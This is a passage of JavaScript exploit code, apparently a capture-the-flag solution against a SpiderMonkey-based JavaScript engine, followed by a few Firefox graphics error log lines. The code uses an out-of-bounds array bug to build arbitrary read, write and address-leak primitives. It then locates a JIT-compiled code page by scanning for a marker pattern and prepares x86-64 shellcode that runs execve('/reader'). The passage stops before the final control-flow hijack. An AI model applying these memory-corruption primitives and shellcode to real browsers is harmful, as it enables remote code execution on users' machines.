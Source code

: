 ```js
        a.oob(13, i2d(addr));
        b[0] = value;
        a.oob(13, olddata);
    }

    // Read size bytes from addr
    function read(addr, size) {
        assert(size % 8n === 0n);
        let ret = new BigUint64Array(Number(size) / 8);
        for (let i = 0n; i < size / 8n; i++) {
            ret[i] = read64(addr + i * 8n)
        }
        return new Uint8Array(ret.buffer);
    }

    // Return the address of a JavaScript object
    function addrof(x) {
        a.oob(14, x);
        return b[0] & 0xffffffffffffn;
    }

    for (let i = 0; i < 100000; i++) {
        jitme();
    }

    const addrof_jitme = addrof(jitme);
    const codepage_addr = read64(read64(addrof_jitme + 0x28n)) & 0xfffffffffffff000n;
    print(`addrof(jitme) = ${hex(addrof_jitme)}`);
    print(`code page at = ${hex(codepage_addr)}`);

    const code = read(codepage_addr, 0x1000n);
    let stage1_offset = -1;
    for (let i = 0; i < 0x1000 - 8; i++) {
        if (code[i] == 0x37 && code[i + 1] == 0x13 && code[i + 2] == 0x37
            && code[i + 3] == 0x13 && code[i + 4] == 0x37 && code[i + 5] == 0x13
            && code[i + 6] == 0x37 && code[i + 7] == 0x13) {
            stage1_offset = i + 14;
            break;
        }
    }

    assert(stage1_offset !== -1);
    const stage1_addr = BigInt(stage1_offset) + codepage_addr;
    print(`stage1_addr = ${hex(stage1_addr)}`);

    // execve('/reader')
    const shellcode = new Uint8Array([0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50, 0x48, 0xb8, 0x2e, 0x73, 0x64, 0x60, 0x65, 0x64, 0x73, 0x1, 0x48, 0x31, 0x4, 0x24, 0x48, 0x89, 0xe7, 0x31, 0xd2, 0x31, 0xf6, 0x6a, 0x3b, 0x58, 0xf, 0x5, 0xcc]);

    const addrof_shellcode = addrof(shellcode);
    const shellcode_shape = read64(addrof_shellcode);
    const shellcode_base_shape = read64(shellcode_shape);
    const shellcode_class = read64(shellcode_base_shape);
    const shellcode_ops = read64(shellcode_class + 0x10n);
    const shellcode_data = read64(addrof_shellcode + 0x30n);
    print(`addrof(shellcode) = ${hex(addrof_shellcode)}`);
    print(`shellcode->shape = ${hex(shellcode_shape)}`);
    print(`shellcode->shape->base_shape = ${hex(shellcode_base_shape)}`);
    print(`shellcode->shape->base_shape->class = ${hex(shellcode_class)}`);
    print(`shellcode->shape->base_shape->class->ops = ${hex(shellcode_ops)}`);
    print(`shellcode->data = ${hex(shellcode_data)}`);

```

[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt